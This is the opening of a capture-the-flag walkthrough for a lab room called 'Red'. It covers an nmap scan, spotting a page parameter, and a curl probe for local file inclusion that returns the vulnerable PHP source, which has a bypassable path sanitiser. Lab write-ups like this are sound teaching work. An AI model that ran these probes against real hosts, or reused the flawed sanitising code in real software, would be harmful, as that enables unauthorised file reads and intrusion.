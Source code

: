 # Room: Red
<i>A classic battle for the ages.</i>
### Description

<blockquote>
The match has started, and Red has taken the lead on you.[space][space]
But you are Blue, and only you can take Red down.

However, Red has implemented some defense mechanisms that will make the battle a bit difficult:
1. Red has been known to kick adversaries out of the machine. Is there a way around it?
2. Red likes to change adversaries' passwords but tends to keep them relatively the same. 
3. Red likes to taunt adversaries in order to throw off their focus. Keep your mind sharp!

This is a unique battle, and if you feel up to the challenge. Then by all means go for it!
</blockquote>

#### What To Do:
Step 1:
###### Run a **simple nmap scan** on the targets ip to check for **common ports opened**<br>we can always scan later again, if necessary.
```
nmap <target-ip>
```
###### Output:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
###### Ah, we can assume port 80 is a http server
Step 2:
###### Put the targets-ip in your browser
![image](https://github.com/solocyberengineer/MrBud-Home/assets/90530825/567a2646-c5d3-405a-880d-950d6b992eff)
###### 1. The first thing to notice is that the url has changed(we were redirected)<br>2. The second thing to notice is that the url has a get parameter "?page=home.html", This could be a possible vulnerability.
##### Lets Test for Local File Inclusion(LFI)
###### lets use curl on index.php file to check
```
curl http://target-ip/index.php?page=index.php
```
###### Output:
```php
<?php

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```
